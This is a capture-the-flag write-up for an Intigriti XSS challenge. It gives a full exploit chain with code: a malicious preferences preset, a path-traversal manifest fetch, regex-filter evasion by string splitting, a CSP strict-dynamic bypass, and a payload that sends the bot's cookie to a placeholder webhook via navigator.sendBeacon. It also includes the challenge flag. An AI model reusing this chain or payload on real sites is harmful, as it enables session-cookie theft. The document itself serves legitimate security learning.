




Intigriti April 2026 XSS Challenge — Writeup

Hi! This is a writeup for April's 2026 Intigriti's challenge that need to leverage XSS vulnerability to get the flag from the bot. 

Hint provided by Intigriti on their X account:
- **"The settings page saves more than it shows"** → the `/api/account/preferences` endpoint accepts and persists arbitrary extra fields beyond what the UI exposes, including `readerPresets` with full profile objects.

---

## Vulnerability Chain

## 1. Reader Presets — Storing the Exploit Profile

The app exposes a `/api/account/preferences` endpoint. While the UI only shows four fields (`theme`, `fontSize`, `language`, `defaultLayout`), the API accepts and stores any additional JSON fields, including a `readerPresets` object.

A reader preset can carry a `profile` that `applyRemoteProfile()` in `app.js` reads and applies directly to the `APP` object:

```js
function applyRemoteProfile(profile) {
  if (typeof profile.renderMode === 'string')   APP.renderMode  = profile.renderMode;
  if (Array.isArray(profile.widgetTypes))        APP.widgetTypes = profile.widgetTypes;
  if (typeof profile.widgetSink === 'string')    APP.widgetSink  = profile.widgetSink;
  if (typeof profile.theme === 'string')         APP.theme       = profile.theme;
}
```

The following POST request saves a malicious preset:

```http
POST /api/account/preferences HTTP/1.1
Host: challenge-0426.intigriti.io
Content-Type: application/json

{
  "theme": "dark",
  "fontSize": 14,
  "language": "en",
  "defaultLayout": "../../api/account/preferences/reader-presets/custom",
  "readerPresets": {
    "custom": {
      "profile": {
        "renderMode": "full",
        "widgetTypes": ["custom"],
        "widgetSink": "script"
      }
    }
  }
}
```



Key points:
- `renderMode: "full"` unlocks `id` attributes in DOMPurify and enables content enhancements.
- `widgetTypes: ["custom"]` permits the `custom` widget type.
- `widgetSink: "script"` makes `loadCustomWidget()` inject `data-cfg` content as a `<script>` tag.
- `defaultLayout` is set to a path traversal string that will be used to serve our preset as a panel manifest.

---

## 2. Path Traversal via `defaultLayout` → Panel Manifest Fetch

`app.js` builds the panel manifest URL using the raw `panel` value from `window.__APP_INIT__`:

```js
var target = '/note/' + encodeURIComponent(noteId) + '/' + panel +
  '/manifest.json?note=' + encodeURIComponent(noteId);
```

Because `panel` is **not encoded**, a traversal value like:

```
../../api/account/preferences/reader-presets/custom
```

builds the fetch URL:

```
/note/{noteId}/../../api/account/preferences/reader-presets/custom/manifest.json?note={noteId}
```

Which the browser normalises to:

```
/api/account/preferences/reader-presets/custom/manifest.json?note={noteId}
```

This endpoint returns our saved preset:

```json
{"profile":{"renderMode":"full","widgetTypes":["custom"],"widgetSink":"script"}}
```

Because this returns **200 OK**, it hits the main branch of `loadPanelManifest()` which calls `applyRemoteProfile()` — setting `APP.renderMode = 'full'`, `APP.widgetSink = 'script'`, etc. The fallback `loadReaderPresetTheme()` path (which only applies `theme`) is **never used**.

To deliver this panel value to the bot via URL while keeping the server routing to the note page, the slashes are **percent-encoded** in the URL:

```
/note/{noteId}/custom%2F..%2F..%2F..%2Fapi%2Faccount%2Fpreferences%2Freader-presets%2Fcustom
```

- The server sees one encoded path segment → routes to the note page ✓  
- The client JS reads the decoded `panel` value → builds the traversal fetch URL ✓

---

## 3. Malicious Note Content

With `renderMode: 'full'` active, DOMPurify allows `id` and `data-*` attributes. The note content plants two elements:

```html
<div id="enhance-config" data-types="custom"></div>
<div data-enhance="custom" data-cfg="navigator.sendBeacon('https://YOUR.WEBHOOK',top['docu'+'ment']['coo'+'kie'])"></div>
```

The post-sanitisation regex filter blocks these literal strings:

```
script|cookie|document|window|eval|alert|...
```

Both are bypassed:
- `top['docu'+'ment']['coo'+'kie']` — neither `document` nor `cookie` appear as literal substrings, so the regex passes the value clean.
- `navigator.sendBeacon` — `navigator` is not in the blocklist.



---

## 4. The Widget Gadget — CSP Bypass via `strict-dynamic`

Once `renderMode: 'full'` is set, `processEnhancements()` runs. It finds `[data-enhance="custom"]`, checks the `#enhance-config` allowlist, and calls `loadCustomWidget()`:

```js
function loadCustomWidget(el) {
  if (getOwnString(APP, 'widgetSink', 'text') !== 'script') return;
  var cfg = el.dataset.cfg;
  var s = document.createElement('script');
  s.textContent = cfg;            // our payload
  document.head.appendChild(s);  // dynamically created → trusted via strict-dynamic
}
```

The CSP is:
```
script-src 'nonce-...' 'strict-dynamic'
```

`strict-dynamic` propagates trust from the nonce-bearing inline script to **any script it programmatically creates**. No nonce is needed on the injected `<script>` — it inherits trust automatically.

---

## 5. Delivering to the Bot — Intercepting the Report Request

The report button sends:

```js
var url = location.pathname + location.search + location.hash;
fetch('/api/report', { method: 'POST', body: JSON.stringify({ url }) });
```

`location.pathname` **decodes** percent-encoded characters, so clicking the report button would send decoded slashes — the bot would receive a broken URL.

The fix: intercept the report request in Burp Suite and manually replace the `url` value with the correctly encoded path:

```json
{
  "url": "/note/{noteId}/custom%2F..%2F..%2F..%2Fapi%2Faccount%2Fpreferences%2Freader-presets%2Fcustom"
}
```



The bot visits the URL, the full chain executes, and the cookie is exfiltrated via `navigator.sendBeacon`.

---

## Full Attack Chain Summary

```
1. POST /api/account/preferences
   └─ Store readerPresets.custom.profile = { renderMode: full, widgetTypes: [custom], widgetSink: script }
   └─ Set defaultLayout = "../../api/account/preferences/reader-presets/custom"

2. POST /api/notes
   └─ Content: <div id="enhance-config" data-types="custom"></div>
               <div data-enhance="custom" data-cfg="navigator.sendBeacon(...)"></div>

3. Visit note with encoded panel traversal
   └─ /note/{noteId}/custom%2F..%2F..%2F..%2Fapi%2Faccount%2Fpreferences%2Freader-presets%2Fcustom
   └─ JS fetches → /api/account/preferences/reader-presets/custom/manifest.json?note={noteId}
   └─ 200 OK → applyRemoteProfile() → APP.renderMode = 'full'

4. DOMPurify passes id + data-* attributes (renderMode = full unlocks them)
   └─ postSanitize regex passes (no literal 'document'/'cookie' in payload)
   └─ MutationObserver fires → processEnhancements() → loadCustomWidget()
   └─ <script> created dynamically → trusted via strict-dynamic CSP bypass
   └─ navigator.sendBeacon exfiltrates bot cookie

5. Intercept report button request in Burp
   └─ Replace url with encoded traversal path
   └─ Bot visits → full chain executes → flag captured
```

---

## Flag



```
INTIGRITI{019d955f-1643-77a6-99ef-1c10975ab284}
```

---